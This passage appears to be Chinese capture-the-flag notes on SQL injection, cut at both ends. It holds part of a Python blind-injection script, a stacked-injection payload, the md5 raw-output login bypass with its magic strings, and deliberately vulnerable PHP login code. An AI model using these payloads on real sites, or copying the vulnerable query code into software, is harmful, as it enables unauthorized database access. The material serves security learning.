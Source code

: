 ```python
                r = requests.get(url=url + payload, timeout=0.5)  # 0.5s内必须返回结果，然后执行下面的语句，如果0.15s还没有结果，则执行except的内容
                high = mid
            except:
                low = mid + 1
        if low != 32:
            result += chr(low)
            #print(result)
        else:
            break
        print(result)
```

## 堆叠注入

堆叠注入就是将一堆sql语句叠加在一起执行，使用分号结束上一个语句再叠加其他语句一起执行。

```
1';show databases;--+
```

举例见：Web - 攻防世界 - supersqli

## 特殊注入

### php md5函数

```php
$sql="select * from user where username ='admin' and password ='".md5($password,true)."'";
```

对于函数md5(string,raw)
第二个参数有以下可选项：
TRUE - 原始 16 字符二进制格式
FALSE - 默认。32 字符十六进制数
所以只要md5加密后的16进制转化为二进制时有 'or’xxxx，即可构成闭合语句： username ='admin' and password =‘ ’or 'xxxxx' 成功登陆
这里给出两个符合的字符串
ffifdyop
129581926211651571912466741651878684928
但题目有长度限制，所以输入ffifdyop即可获取flag

### mysql  with rollup

```php
<?php
		$flag="";
        function replaceSpecialChar($strParam){
             $regex = "/(select|from|where|join|sleep|and|\s|union|,)/i";
             return preg_replace($regex,"",$strParam);
        }
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		if(strlen($username)!=strlen(replaceSpecialChar($username))){
			die("sql inject error");
		}
		if(strlen($password)!=strlen(replaceSpecialChar($password))){
			die("sql inject error");
		}
		$sql="select * from user where username = '$username'";
		$result=mysqli_query($con,$sql);
			if(mysqli_num_rows($result)>0){
					while($row=mysqli_fetch_assoc($result)){
						if($password==$row['password']){
```